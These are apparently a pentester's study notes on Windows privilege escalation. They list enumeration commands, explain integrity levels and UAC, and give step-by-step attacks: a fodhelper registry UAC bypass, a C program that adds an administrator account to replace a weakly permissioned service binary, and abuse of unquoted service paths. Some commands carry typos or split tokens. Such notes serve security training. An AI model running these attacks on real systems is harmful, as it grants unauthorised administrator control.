 # Priv Esc for Windows


### Users  
`whoami`  
To discover other users: `net user`  
To gain info on other users: `net user <username>` 


### Hostname
Hostname provides functional roles: `hostname`

### OS Version and Architecture
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`

### Running Processes
`tasklist /SVC`

###  Network Info 
In need to pivot or find other hidden networks: `ipconfig /all` 
Check routing tables: `route print`
Active TCP network connections with address and PID: `netstat -ano`
Firwall status and rules: `netsh advfirewall show currentprofile`
If firewall profile is active, we can list the rules: `netsh advfirewall firewall show rule name=all`

### Scheduled tasks
`schtasks /query /fo LIST /v`


### Installed Apps and Patch 
Package  manager = wmic `wmic product get name, version, vendor` 
Check if it has been updated recently: `wmic qfe get Caption, Description, HotFixID, InstalledOn` 

### Insecure File permissions
`accesschk.exe -uws "Everyone" "C:\Program Files"`


### Unmounted Disks
`mountvol`

### Device Drivers and kernel modules

**Using powershell**  
`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Dis play Name’, ‘Start Mode’, Path`
Load VMware drivers with specific versions and then search for exploits:
`Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, D riverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`

### Find Binaries that autoelevate (SUID bit equivalent)
Need to check for `AlwaysInstallElevated` registry setting
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

### Automated
`windows-privesc-check` script by pentestmonkey

___________________________________________________
# Knowledge
User inspection access tokens indicate their privilege on the system

### Integrity Levels
The configured integrity level dictates what actions an application can perform, including the ability to read from or write to the local file system.

**From Win Vista Onwards:**
• System integrity process: SYSTEM rights 
• High integrity process: administrative rights 
• Medium integrity process: standard user rights 
• Low integrity process: very restricted rights often used in sandboxed processes  
**Example:** An administrator cannot change its password on a regular shell since that is medium integrity level. When that shell is ran as high integrity level, they can make the password change  

### User account control (UAC)
Tasks run in non admin until an admin authorizes priv access
Blocks changes to system wide settings by default. Purpose is so app cant do system wide impact silently, it has to ask for privs


### UAC Bypass
1. Run `C:\Windows\System32\fodhelper.exe`
2. To get info about its integrity levels and perms required to run process, will inspect **application manifest** (xml file that lets os know how to handle program)
3. Inspect manifest with sigcheck utility from sysinternals whe -a argument to obtain extended information and -m to dump the manifest. `C:\Tools\privilege_escalation\SysinternalsSuite> sigcheck.exe -a -m C:\Windows\System3 2\fodhelper.exe`
Results show that app needs full admin privs and autoelevate is true which allows the executable to auto-elevate to high integrity without prompting the administrator user for consent
4. Use process monitor `procmon.exe` to monitor activities performed by target process `fodhelper.exe`
5. Check if fodhelper is trying to access a registry key that does not exist. Add a “Result” filter for “NAME NOT FOUND"
fodhelper tries to access `HKCU:\Software\Classes\ms-settings\shell\open\command` registry key, which does not appear to exist.
fodhelper tries to access the ms-setting registry key within the HKCU hive first. This key does not exist in HKCU, but we should have the necessary permissions to create it.
6. `C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command`
7. The value by default is set to null which means it doesn't do anything. We can change it and launch cmd.exe
8. ` REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ`
 `REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`
9. Now if we launch fodhelper, we should be presented with a shell with high integrity


### Insecure File Permissions
1. Get runnning services in PS  `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
2. After getting the process, run icacls to check for permissions it will output the service’s Security Identifier
`icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`     
`BUILTIN\Users:(I)(F)`
3. If it has read/write permissions than it can be replaced by one of our own

**Code example**
```
#include int main () { 
int i;
i = system ("net user evil Ev!lpass /add"); 
i = system ("net localgroup administrators evil /add");
return 0; }
```
**Cross compile**
`i686-w64-mingw32-gcc adduser.c -o adduser.exe`

Transfer to windows machine and then move to original location

> If you cannot stop the service due to lack of admin permissions, check if restarts on boot and reboot the system


### Leveraging Unquoted Service Paths
When a path is unqouted, windows will search each interpreted location.
**Example**
If the unqouted path is `C:\Program Files\My Program\My Service\service.exe`, then we can place a file in any of these as it searches through each location for it
```
C:\Program.exe 
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
```
Create a malicious executable, place it in a directory that corresponds to one of the interpreted paths, and name it so that it also matches the interpreted filename.


### Driver and kernel
Before locating native kernel vulnerabilities for older OS's it is always safer to try easier methods. Always search for third party drivers and check searchsploit

Once there is an exploit, learn to compile code on windows.
